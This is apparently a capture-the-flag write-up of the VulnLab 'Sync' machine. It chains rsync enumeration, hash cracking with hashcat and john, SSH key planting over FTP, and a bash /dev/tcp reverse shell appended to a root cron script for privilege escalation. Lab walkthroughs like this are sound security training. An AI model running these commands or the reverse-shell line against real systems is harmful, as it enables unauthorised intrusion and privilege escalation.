 ```yaml
---
title: VulnLab -- Sync Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration,web exploitaion]
image:
    path: /images/Sync-banner.png
---
```

# Sync

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Sync** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/sync-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 21,22,80,873 --min-rate=1000 10.10.64.150
```

![image.png](../images/sync.png)

Now let’s see the website running on port 80

![image.png](../images/sync%201.png)

As we see it’s a simple login page

Now let’s go to the rsync service and see if there is any shares

```bash
rsync 10.10.64.150::
```

![image.png](../images/sync%202.png)

and we have a httpd so let’s download it’s content

```bash
rsync 10.10.64.150::"httpd/www/dashboard.php" .
rsync 10.10.64.150::"httpd/www/index.php" . 
rsync 10.10.64.150::"httpd/www/logout.php" .
```

![image.png](../images/sync%203.png)

now let’s download the site database

```bash
rsync 10.10.64.150::"httpd/db/site.db" .
```

![image.png](../images/sync%204.png)

now let’s review the code!

![image.png](../images/sync%205.png)

> First we will notice that the code is vulnerable to sql injection but the most interesting thing is that the hash is calculated by concatenating the $secure ,$username and $password variables
> 

So let’s go and extract the passwords from the database we got

```bash
 SELECT * FROM users;
```

![image.png](../images/sync%206.png)

> Now we have everything we need the username and the secure
username: admin
hash: 7658a2741c9df3a97c819584db6e6b3c
username: triss
hash: a0de4d7f81676c3ea9eabcadfd2536f6
secure: 6c4972f3717a5e881e282ad3105de01e
> 

now let’s try to crack the password

```bash
cat crackme.txt
```

![image.png](../images/sync%207.png)

now let’s use hashcat to crack it

```bash
hashcat -m 20 crackme.txt /usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%208.png)

and we got the password for the user triss so let’s reuse it in the ftp

```bash
username: triss
password: gerald
```

![image.png](../images/sync%209.png)

now let’s generate a SSH keys

```bash
ssh-keygen
```

![image.png](../images/sync%2010.png)

now copy the public key in your folder and name it authorized_keys

```bash
cp ~/.ssh/id_ed25519.pub authorized_keys
```

![image.png](../images/sync%2011.png)

now in the ftp let’s make a .ssh directory

```bash
mkdir .ssh
```

![image.png](../images/sync%2012.png)

now navigate to it and upload the authorized_keys file

```bash
put authorized_keys
```

![image.png](../images/sync%2013.png)

Now let’s try to SSH  to the machine

```bash
ssh triss@10.10.64.150
```

![image.png](../images/sync%2014.png)

and we logged in

Now let’s navigate to the /backup directory

![image.png](../images/sync%2015.png)

and as we see alot of zip files is created so let’s download one of them

```bash
unzip 1743232081.zip 
```

![image.png](../images/sync%2016.png)

notice that there is a backup for the passwd and shadow file so let’s abuse it by making a cracking there hash

```bash
unshadow passwd shadow > crackme.txt
```

![image.png](../images/sync%2017.png)

Now let’s go and crack it

```bash
john crackme.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%2018.png)

> Notice that we got the passwords for all users
username: sa
password: sakura
username: jennifer
password: gerald
> 

Now let’s switch to the sa user

```bash
su sa
```

![image.png](../images/sync%2019.png)

Now let’s go and see if there is any hidden script running in the background

```bash
./pspy64
```

![image.png](../images/sync%2020.png)

> Notice that there is a script running as root
> 

let’s go and see our permission on this file

```bash
ls -las /usr/local/bin/backup.sh
```

![image.png](../images/sync%2021.png)

Since we are the user sa we can edit the script and add a reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" >> /usr/local/bin/backup.sh
```

![image.png](../images/sync%2022.png)

as we see the reverse shell was added so let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/sync%2023.png)

now let’s wait for the reverse shell

![image.png](../images/sync%2024.png)

and we got root so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/sync%2025.png)

Amazing we got root flag 🥳

![image.png](../images/sync%2026.png)

That’s it for the **Sync** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX